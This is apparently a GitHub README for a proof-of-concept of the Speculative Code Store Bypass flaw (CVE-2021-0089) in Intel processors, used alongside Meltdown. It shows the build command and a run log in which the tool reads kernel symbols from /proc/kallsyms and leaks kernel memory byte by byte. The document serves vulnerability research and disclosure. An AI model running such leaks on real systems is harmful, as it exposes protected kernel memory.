 # Speculative Code Store Bypass POC
Speculative Code Store Bypass Vulnerability Proof-of-Concept

# Description
Speculative Code Store Bypass (SCSB) is a new transient execution attack which exploits the self-modifying code (SMC) mechanism in Intel processor. 
Intel published this vulnerability on 2021-06-08 and assigned it CVE-2021-0089. Look at their explainations for details:
https://software.intel.com/content/www/us/en/develop/articles/software-security-guidance/advisory-guidance/speculative-code-store-bypass.html

We discoverd this vulnerability a long time ago. We always used it as a novel way to suppress the fault in Meltdown-type attack. And this POC is a demonstration. It is a little pity that we fail to disclose it in the first place :(. 
 
The Meltdown code borrowed in this POC is at:
https://github.com/paboldin/meltdown-exploit

# Result
```
$ make
gcc -O3 -o scsb scsb.c

$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo sed -n -re s/^([0-9a-f]*[1-9a-f][0-9a-f]*) .* linux_proc_banner$/\1/p /proc/kallsyms
+ linux_proc_banner=ffffffff81800060
+ set +x
cached = 158, uncached = 404, threshold 208
read 25 % (score=913/1000)
read 73 s (score=904/1000)
read 20   (score=869/1000)
read 76 v (score=850/1000)
read 65 e (score=839/1000)
read 72 r (score=933/1000)
read 73 s (score=864/1000)
read 69 i (score=897/1000)
read 6f o (score=867/1000)
read 6e n (score=861/1000)
read 20   (score=789/1000)
read 25 % (score=809/1000)
read 73 s (score=883/1000)
read 20   (score=703/1000)
read 28 ( (score=856/1000)
read 62 b (score=774/1000)
read 75 u (score=770/1000)
read 69 i (score=682/1000)
read 6c l (score=856/1000)
read 64 d (score=698/1000)
read 64 d (score=776/1000)
read 40 @ (score=850/1000)
read 6c l (score=683/1000)
read 67 g (score=846/1000)
read 77 w (score=755/1000)
read 30 0 (score=725/1000)
read 31 1 (score=830/1000)
read 2d - (score=827/1000)
read 34 4 (score=766/1000)
read 33 3 (score=791/1000)
read 29 ) (score=736/1000)
read 20   (score=699/1000)
```
